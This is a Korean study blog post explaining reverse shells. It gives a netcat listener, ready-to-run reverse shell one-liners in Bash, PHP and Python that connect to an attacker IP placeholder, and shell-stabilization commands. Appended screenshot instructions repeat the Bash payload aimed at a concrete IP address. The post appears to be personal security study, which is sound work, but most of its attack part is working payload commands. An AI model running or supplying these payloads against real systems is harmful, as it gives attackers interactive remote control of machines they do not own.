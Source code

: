 ```yaml
---
layout: post
title: "리버스 쉘 (Reverse Shell) 공부"
date: 2025-09-20 17:00:00 +0900
categories: [시스템 해킹]
---
```


### 1. 개요

리버스 쉘(Reverse Shell)은 공격 대상 서버가 공격자 PC로 직접 쉘을 연결하도록 만드는 공격 기법이다. 방화벽이 외부에서 내부로 들어오는 연결은 차단하지만 내부에서 외부로 나가는 연결은 허용하는 경우가 많다는 점을 이용한다.

---

### 2. 1단계: 리스너 설정

가장 먼저 공격자 PC에서 대상 서버로부터의 연결을 받을 준비를 해야 한다. `netcat`을 이용해 특정 포트를 열고 연결을 기다리는 리스너를 실행한다.
```bash
# 4444번 포트에서 연결을 대기하며 상세 정보를 출력
nc -lvnp 4444
```
*   `-l`: 리스닝 모드
*   `-v`: 상세 정보 출력
*   `-n`: DNS 조회 생략
*   `-p`: 포트 지정

---

### 3. 2단계: 페이로드 실행

대상 서버의 환경에 맞는 페이로드를 실행하여 공격자 PC로 연결을 시도한다. `revshells.com`과 같은 도구를 사용하면 원하는 환경의 페이로드를 쉽게 생성할 수 있다.

*   **Bash:** `bash -i >& /dev/tcp/[Attacker IP]/4444 0>&1`
*   **PHP:** `php -r '$sock=fsockopen("[Attacker IP]",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`
*   **Python:** `python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("[Attacker IP]",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'`

---

### 4. 3단계: 쉘 안정화 (Stabilization)

처음 획득한 쉘은 자동 완성이나 `Ctrl+C`가 동작하지 않는 불안정한 쉘(Dumb Shell)이다. 이를 상호작용이 가능한 완전한 TTY 쉘로 업그레이드하는 과정이 필요하다.

[여기에 쉘 안정화 전/후 비교 이미지 삽입]

1.  **TTY 쉘 생성:**
    ```bash
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    ```
2.  **터미널 제어권 확보:**
    ```bash
    # (Ctrl+Z 입력) -> 쉘을 백그라운드로 보냄
    stty raw -echo; fg
    # (Enter 두 번 입력) -> 다시 포어그라운드로 가져옴
    ```
3.  **환경 변수 설정:**
    ```bash
    export TERM=xterm
    export SHELL=bash
    ```

<hr class="short-rule">





### 시각 자료(이미지) 제작을 위한 스크립트

#### **쉘 안정화 전/후 비교 이미지 제작**

이 이미지는 제한된 쉘과 완전한 TTY 쉘의 기능적 차이를 명확하게 보여줍니다.

**1. "Before" 이미지 (제한된 쉘)**

1.  공격자 PC에서 `nc -lvnp 4444`로 리스너를 실행하고 대상 서버에서 리버스 쉘 페이로드를 실행하여 쉘을 획득합니다.
2.  획득한 쉘에서 `Tab` 키를 누르거나 `Ctrl+C`를 눌렀을 때 쉘 전체가 종료되어 버리는 현상을 보여줍니다. (예: `^C` 문자가 찍히고 쉘 연결이 끊김)
3.  이 불안정한 상태의 터미널 화면을 스크린샷으로 찍어 **`쉘안정화_전.png`** 로 저장합니다.

**2. "After" 이미지 (안정화된 쉘)**

1.  다시 쉘을 획득한 후, 위 `3. 쉘 안정화` 섹션의 1, 2, 3단계 명령어를 순서대로 모두 실행합니다.
2.  안정화된 쉘에서 `clear` 명령어가 정상적으로 동작하여 화면이 깨끗해지는 것을 보여줍니다.
3.  `ls -l /etc/ap` 까지 입력한 뒤 `Tab` 키를 눌러 `apache2/`로 자동 완성되는 모습을 보여줍니다.
4.  이 모든 기능이 정상적으로 동작하는 터미널 화면을 스크린샷으로 찍어 **`쉘안정화_후.png`** 로 저장합니다.

**3. 최종 이미지 편집**

1.  이미지 편집 프로그램에서 `쉘안정화_전.png`(왼쪽)와 `쉘안정화_후.png`(오른쪽)를 나란히 배치합니다.
2.  각 이미지 위에 "**Before (Dumb Shell)**"과 "**After (Fully Interactive TTY Shell)**" 텍스트를 추가합니다.
3.  **Before** 이미지에서는 `Ctrl+C`로 인해 쉘이 종료되는 부분에 하이라이트를 적용합니다.
4.  **After** 이미지에서는 탭 자동 완성이 성공하거나 `clear` 명령이 실행되는 부분에 하이라이트를 적용하여, 쉘이 완전히 제어 가능해졌음을 시각적으로 강조합니다.
5.  수정된 이미지를 저장하여 게시글에 삽입합니다.

### 시각 자료(이미지) 제작을 위한 스크립트

#### **쉘 업그레이드 전/후 비교 이미지 제작**

이 이미지는 제한된 쉘과 완전한 TTY 쉘의 차이점을 명확하게 보여주는 핵심 자료입니다.

**1. "Before" 이미지 (제한된 쉘)**

1.  (준비) 두 개의 터미널 창을 엽니다. 하나는 **공격자 PC(Attacker)** 다른 하나는 **대상 서버(Target)** 역할입니다.
2.  **공격자 PC** 터미널에서 리버스 쉘 리스너를 실행합니다.
    ```bash
    nc -lvnp 4444
    ```
3.  **대상 서버** 터미널에서 공격자 PC로 리버스 쉘을 연결하는 명령어를 실행합니다.
    ```bash
    bash -i >& /dev/tcp/192.9.200.12/4444 0>&1
    ```
4.  **공격자 PC** 터미널에 연결이 수립되고, `$` 와 같이 매우 단순한 프롬프트가 나타날 것입니다. 이 상태에서 `whoami` 같은 간단한 명령어를 한두 번 실행합니다.
5.  이 단순한 프롬프트가 보이는 **공격자 PC** 터미널 화면을 스크린샷으로 찍어 **`쉘업그레이드_전.png`** 로 저장합니다.

**2. "After" 이미지 (TTY 쉘)**

1.  위 4번 상태의 **공격자 PC** 터미널(리버스 쉘이 연결된 상태)에서, 쉘 업그레이드 명령어를 입력합니다.
    ```bash
    python3 -c "import pty; pty.spawn('/bin/bash')"
    ```
2.  명령어 실행 직후 프롬프트가 `www-data@ubuntu:/var/www/html$` 와 같이 사용자명과 현재 경로가 포함된 완전한 형태로 변경될 것입니다.
3.  변경된 프롬프트가 보이는 **공격자 PC** 터미널 화면을 스크린샷으로 찍어 **`쉘업그레이드_후.png`** 로 저장합니다.

**3. 최종 이미지 편집**

1.  이미지 편집 프로그램(포토샵, 그림판 등)에서 새 캔버스를 엽니다.
2.  왼쪽에 `쉘업그레이드_전.png`를, 오른쪽에 `쉘업그레이드_후.png`를 나란히 배치합니다.
3.  각 이미지 위에 "**Before (Dumb Shell)**"과 "**After (Interactive TTY Shell)**" 텍스트를 추가합니다.
4.  **Before** 이미지에서는 단순한 `$` 프롬프트 부분에 하이라이트를 적용합니다.
5.  **After** 이미지에서는 `python3 -c "..."` 명령어 전체와, 그 결과로 나타난 `www-data@ubuntu:...$` 프롬프트 부분에 하이라이트를 적용하여 원인과 결과를 명확히 보여줍니다.
6.  수정된 이미지를 저장하여 게시글에 삽입합니다.
